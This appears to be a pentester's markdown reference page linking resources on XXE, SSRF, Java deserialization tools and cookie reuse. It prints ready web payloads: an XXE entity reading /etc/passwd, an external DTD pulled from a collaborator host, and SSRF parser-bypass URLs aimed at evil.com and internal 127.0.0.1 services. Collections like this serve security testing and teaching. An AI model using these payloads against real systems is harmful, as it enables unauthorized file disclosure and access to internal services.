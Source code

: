 <br># XXE
<br>https://portswigger.net/web-security/xxe
<br># XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
<br>```<?xml version="1.0" encoding="UTF-8"?>```
<br>```<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>```
<br>```<stockCheck><productId>&xxe;</productId></stockCheck>```

https://phonexicum.github.io/infosec/xxe.html
<br># Information Security PENTEST XXE
<br>```<!DOCTYPE foo SYSTEM "http://xpto.burpcollaborator.net/xpto.dtd">```

https://github.com/GoSecure/dtd-finder
<br># Identify DTDs on filesystem snapshot and build XXE payloads using those local DTDs.

<br># SSRF
<br>https://www.blackhat.com/us-17/briefings.html#a-new-era-of-ssrf-exploiting-url-parser-in-trending-programming-languages
<br># We propose a new exploit technique that brings a whole-new attack surface to bypass SSRF (Server Side Request Forgery) protections.
<br>```http://1.1.1.1&@2.2.2.2#@3.3.3.3/```
<br>```http://127.0.0.1:11211:80/```
<br>```http://google.com#@evil.com/```
<br>```http://foo@evil.com:80@google.com/```
<br>```http://foo@evil.com:80 @google.com/```
<br>```http://127.0.0.1\tfoo.google.com/```
<br>```http://127.0.0.1%09foo.google.com/```
<br>```http://127.0.0.1%2509foo.google.com/```
<br>```http://127.0.0.1:11211#@google.com:80/```
<br>```http://foo@127.0.0.1:11211@google.com:80/```
<br>```http://foo@127.0.0.1 @google.com:11211/```

### Deserialization
https://github.com/joaomatosf/jexboss
<br># JexBoss is a tool for testing and exploiting vulnerabilities in JBoss Application Server and others Java Platforms, Frameworks, Applications, etc.

https://github.com/pimps/JNDI-Exploit-Kit
<br># This is a forked modified version of the great exploitation tool created by @welk1n (https://github.com/welk1n/JNDI-Injection-Exploit). 

### Reusing Cookies
https://medium.com/@ricardoiramar/reusing-cookies-23ed4691122b
<br># This is a story how I accidentally found a common vulnerability across similar web applications just by reusing cookies on different subdomains from the same web application.

### <a name="SSRF"></a>SSRF (Server-Side Request Forgery)
https://lab.wallarm.com/blind-ssrf-exploitation/
<br># There is such a thing as SSRF. There’s lots of information about it, but here is my quick summary.
